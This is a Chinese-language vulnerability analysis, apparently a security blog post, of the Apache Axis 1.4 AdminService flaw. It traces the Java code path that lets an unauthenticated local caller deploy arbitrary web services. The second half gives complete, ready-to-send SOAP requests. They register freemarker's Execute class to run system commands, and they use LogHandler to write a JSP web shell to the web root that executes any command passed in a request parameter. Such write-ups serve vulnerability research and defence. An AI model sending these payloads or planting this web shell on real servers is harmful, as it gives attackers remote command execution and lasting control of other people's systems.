

# Apache Axis 1.4 漏洞

Axis是一个开源WebService框架。这个漏洞的触发点是默认配置情况下在使用本地IP的情况可以免认证访问AdminService，AdminService可以允许用户自定以注册webservice，这样我们可以利用目标的classpath中已经存在的可以利用的命令执行或者文件操作方法getshell。整体来看不清楚是不是真的可以把它定义成一个漏洞，更倾向于一个可能倍滥用的功能接口，毕竟在Axis默认状态不允许远程使用这个接口，所以远程利用应该是需要配合ssrf使用。

## 代码逻辑

首先在`server-config.wsdd`文件中可以看到目前已经存在的service，默认一共有两个：AdminService和Version。AdminService是这个洞的入口，处理这个service的class是`org.apache.axis.utils.Admin`。

```xml
<service name="AdminService" provider="java:MSG">
 <namespace>http://xml.apache.org/axis/wsdd/</namespace>
 <parameter name="allowedMethods" value="AdminService"/>
 <parameter name="enableRemoteAdmin" value="false"/>
 <parameter name="className" value="org.apache.axis.utils.Admin"/>
</service>

<service name="Version" provider="java:RPC">
 <parameter name="allowedMethods" value="getVersion"/>
 <parameter name="className" value="org.apache.axis.Version"/>
</service>
```

找到这个class，看一下方法的实现逻辑。

xml[0]对应的是我们发送个这个service的soap消息body内容，完全可控。

```java
public Element[] AdminService(Element [] xml)
    throws Exception
{
    log.debug("Enter: Admin::AdminService");
    MessageContext msgContext = MessageContext.getCurrentContext();
    Document doc = process( msgContext, xml[0] );
    Element[] result = new Element[1];
    result[0] = doc.getDocumentElement();
    log.debug("Exit: Admin::AdminService");
    return result;
}
```

跟进到process，这里会先进行一个verify，这里给这个洞的价值大大折扣。

```java
public Document process(MessageContext msgContext, Element root)
    throws Exception
{
    verifyHostAllowed(msgContext);

    String rootNS = root.getNamespaceURI();
    AxisEngine engine = msgContext.getAxisEngine();

    // If this is WSDD, process it correctly.
    if (rootNS != null && rootNS.equals(WSDDConstants.URI_WSDD)) {
        return processWSDD(msgContext, engine, root);
    }

    // Else fault
    // TODO: Better handling here
    throw new Exception(Messages.getMessage("adminServiceNoWSDD"));
}
```

这里的逻辑很简单，只要看注释就行了。只有当service的enableRemoteAdmin设置为true才能允许访问，所以我们的IP只能是localhost、127.0.0.1或者IPv6的0:0:0:0:0:0:0:1。我进行的是本地调试，所以完全没有影响。实际环境可能需要配合ssrf这种漏洞才能真正的发挥威力。

```java
private void verifyHostAllowed(MessageContext msgContext) throws AxisFault {
    /** For now, though - make sure we can only admin from our own
     * IP, unless the remoteAdmin option is set.
     */
    Handler serviceHandler = msgContext.getService();
    if (serviceHandler != null  &&
        !JavaUtils.isTrueExplicitly(serviceHandler.getOption("enableRemoteAdmin"))) {

        String remoteIP = msgContext.getStrProp(Constants.MC_REMOTE_ADDR);
        if (remoteIP != null  &&
            !(remoteIP.equals(NetworkUtils.LOCALHOST) ||
              remoteIP.equals(NetworkUtils.LOCALHOST_IPV6))) {

            try {
                InetAddress myAddr = InetAddress.getLocalHost();
                InetAddress remoteAddr =
                        InetAddress.getByName(remoteIP);
                if(log.isDebugEnabled()) {
                    log.debug("Comparing remote caller " + remoteAddr +" to "+ myAddr);
                }


                if (!myAddr.equals(remoteAddr)) {
                    log.error(Messages.getMessage("noAdminAccess01",
                            remoteAddr.toString()));
                    throw new AxisFault("Server.Unauthorized",
                       Messages.getMessage("noAdminAccess00"),
                       null, null);
                }
            } catch (UnknownHostException e) {
                throw new AxisFault("Server.UnknownHost",
                    Messages.getMessage("unknownHost00"),
                    null, null);
            }
        }
    }
}

```

通过了verify之后会进入到processWSDD方法。

```java
protected static Document processWSDD(MessageContext msgContext,
                                      AxisEngine engine,
                                      Element root)
    throws Exception
{
    Document doc = null ;

    String action = root.getLocalName();
    if (action.equals("passwd")) {
        String newPassword = root.getFirstChild().getNodeValue();
        engine.setAdminPassword(newPassword);
        doc = XMLUtils.newDocument();
        doc.appendChild( root = doc.createElementNS("", "Admin" ) );
        root.appendChild( doc.createTextNode( Messages.getMessage("done00") ) );
        return doc;
    }

    if (action.equals("quit")) {
        log.error(Messages.getMessage("quitRequest00"));
        if (msgContext != null) {
            // put a flag into message context so listener will exit after
            // sending response
            msgContext.setProperty(MessageContext.QUIT_REQUESTED, "true");
        }
        doc = XMLUtils.newDocument();
        doc.appendChild( root = doc.createElementNS("", "Admin" ) );
        root.appendChild( doc.createTextNode( Messages.getMessage("quit00", "") ) );
        return doc;
    }

    if ( action.equals("list") ) {
        return listConfig(engine);
    }

    if (action.equals("clientdeploy")) {
        // set engine to client engine
        engine = engine.getClientEngine();
    }

    WSDDDocument wsddDoc = new WSDDDocument(root);
    EngineConfiguration config = engine.getConfig();
    if (config instanceof WSDDEngineConfiguration) {
        WSDDDeployment deployment =
            ((WSDDEngineConfiguration)config).getDeployment();
        wsddDoc.deploy(deployment);
    }
    engine.refreshGlobalOptions();

    engine.saveConfiguration();

    doc = XMLUtils.newDocument();
    doc.appendChild( root = doc.createElementNS("", "Admin" ) );
    root.appendChild( doc.createTextNode( Messages.getMessage("done00") ) );

    return doc;
}
```

随后root，也就是xml[0],也就是soap body，如果tag中的内容不是undeployment就会进入到deployment流程。

```java
public static final String ELEM_WSDD_UNDEPLOY = "undeployment";

public WSDDDocument(Element e) throws WSDDException
{
    doc = e.getOwnerDocument();
    if (ELEM_WSDD_UNDEPLOY.equals(e.getLocalName())) {
        undeployment = new WSDDUndeployment(e);
    } else {
        deployment = new WSDDDeployment(e);
    }
}
```

那么具体要deploy什么东西呢？跟进WSDDDeployment方法，这里重点是在处理service tag的时候会进行deployService操作，用户可以自定义注册webservice。              

```java
public WSDDDeployment(Element e)
        throws WSDDException {
    super(e);
    Element [] elements = getChildElements(e, ELEM_WSDD_HANDLER);
    int i;
    for (i = 0; i < elements.length; i++) {
        WSDDHandler handler = new WSDDHandler(elements[i]);
        deployHandler(handler);
    }
    elements = getChildElements(e, ELEM_WSDD_CHAIN);
    for (i = 0; i < elements.length; i++) {
        WSDDChain chain = new WSDDChain(elements[i]);
        deployHandler(chain);
    }
    elements = getChildElements(e, ELEM_WSDD_TRANSPORT);
    for (i = 0; i < elements.length; i++) {
        WSDDTransport transport = new WSDDTransport(elements[i]);
        deployTransport(transport);
    }
    elements = getChildElements(e, ELEM_WSDD_SERVICE);
    for (i = 0; i < elements.length; i++) {
        try {
            WSDDService service = new WSDDService(elements[i]);
            deployService(service);
        } catch (WSDDNonFatalException ex) {
            // If it's non-fatal, just keep on going
            log.info(Messages.getMessage("ignoringNonFatalException00"), ex);
        } catch (WSDDException ex) {
            // otherwise throw it upwards
            throw ex;
        }
    }
    elements = getChildElements(e, ELEM_WSDD_TYPEMAPPING);
    for (i = 0; i < elements.length; i++) {
        try {
            WSDDTypeMapping mapping = new WSDDTypeMapping(elements[i]);
            deployTypeMapping(mapping);
        } catch (WSDDNonFatalException ex) {
            // If it's non-fatal, just keep on going
            log.info(Messages.getMessage("ignoringNonFatalException00"), ex);
        } catch (WSDDException ex) {
            // otherwise throw it upwards
            throw ex;
        }
    }
    elements = getChildElements(e, ELEM_WSDD_BEANMAPPING);
    for (i = 0; i < elements.length; i++) {
        WSDDBeanMapping mapping = new WSDDBeanMapping(elements[i]);
        deployTypeMapping(mapping);
    }

    elements = getChildElements(e, ELEM_WSDD_ARRAYMAPPING);
    for (i = 0; i < elements.length; i++) {
        WSDDArrayMapping mapping =
                new WSDDArrayMapping(elements[i]);
        deployTypeMapping(mapping);
    }

    Element el = getChildElement(e, ELEM_WSDD_GLOBAL);
    if (el != null)
        globalConfig = new WSDDGlobalConfiguration(el);
}
```

最终回到processWSDD方法保存配置到service.wsdd

```java
engine.saveConfiguration();
```

## 利用

虽然漏洞发的预警是针对freemarker这个jar包的，但是Axis的包里面默认是没有freemarker的，不清楚预警里面为什么要这么写。看了篇文章作者将就了一下自己把freemarker的jar包直接扔进了lib里进行测试，我这里也就照葫芦画瓢。原作者在一些关键地方打码了，花了不少时间来学soap和wsdl。

第一步要自己注册一个service，这里选中的是freemarker中freemarker.template.utility.Execute方法，这个方法会调用Runtime.exec()执行系统命令，就不贴代码了，直接上payload。

```xml
POST /axis/services/AdminService HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 428
SoapAction:

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" >
  <soap:Body>
    <deployment
      xmlns="http://xml.apache.org/axis/wsdd/"
      xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
        <service name="execute" provider="java:RPC">
          <parameter name="className" value="freemarker.template.utility.Execute" />
          <parameter name="allowedMethods" value="*" />
        </service>
    </deployment>
  </soap:Body>
</soap:Envelope>
```
可以通过list查看到我们的新service已经注册上了。



service-config.wsdd文件中也可以看到配置内容。

```xml
<service name="execute" provider="java:RPC">
 <parameter name="allowedMethods" value="*"/>
 <parameter name="className" value="freemarker.template.utility.Execute"/>
</service>
```

下面就是调用exec方法了，注意类型是string。

```xml
POST /axis/services/execute HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
SOAPAction:
Content-Type: text/xml;charset=UTF-8
Host: 127.0.0.1:8080
Content-Length: 478

<soapenv:Envelope
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xmlns:xsd="http://www.w3.org/2001/XMLSchema"
  xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
  xmlns:util="http://freemarker"
  xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">
   <soapenv:Header/>
   <soapenv:Body>
      <util:exec>
         <arguments soapenc:arrayType="xsd:string[]" >
           <string>calc</string>
         </arguments>
      </util:exec>
   </soapenv:Body>
</soapenv:Envelope>
```


## 更好的利用方法

由于freemarker这个jar包是我们自己传上去的，实际的利用过程中有没有更好一点的利用方式呢？有师傅找到了一个可以写入文件的类`org.apache.axis.handlers.LogHandler`，通过这个类可以写入一个webshell。

注册webservice

```xml
POST /axis/services/AdminService?wsdl HTTP/1.0
Content-Type: text/xml; charset=utf-8
Accept: application/soap+xml, application/dime, multipart/related, text/*
User-Agent: Axis/1.4
Host: locathost:8080
Cache-Control: no-cache
Pragma: no-cache
SOAPAction: ""
Content-Length: 985

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Body>
<ns1:deployment
xmlns="http://xml.apache.org/axis/wsdd/"
xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
xmlns:ns1="http://xml.apache.org/axis/wsdd/">
<ns1:service name="RandomService" provider="java:RPC">
<requestFlow>
<handler type="RandomLog"/>
</requestFlow>
<ns1:parameter name="className" value="java.util.Random"/>
<ns1:parameter name="allowedMethods" value="*"/>
</ns1:service>
<handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >  
<parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />   
<parameter name="LogHandler.writeToConsole" value="false" />
</handler>
</ns1:deployment>
</soapenv:Body>
</soapenv:Envelope>
```

调用service写入内容

```xml
POST /axis/services/RandomService HTTP/1.0
Content-Type: text/xml; charset=utf-8
Accept: application/soap+xml, application/dime, multipart/related, text/*
User-Agent: Axis/1.4
Host: locathost:8080
Cache-Control: no-cache
Pragma: no-cache
SOAPAction: ""
Content-Length: 784

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Body>
<api:main
soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
</api:in0>
</api:main>
</soapenv:Body>
</soapenv:Envelope>
```


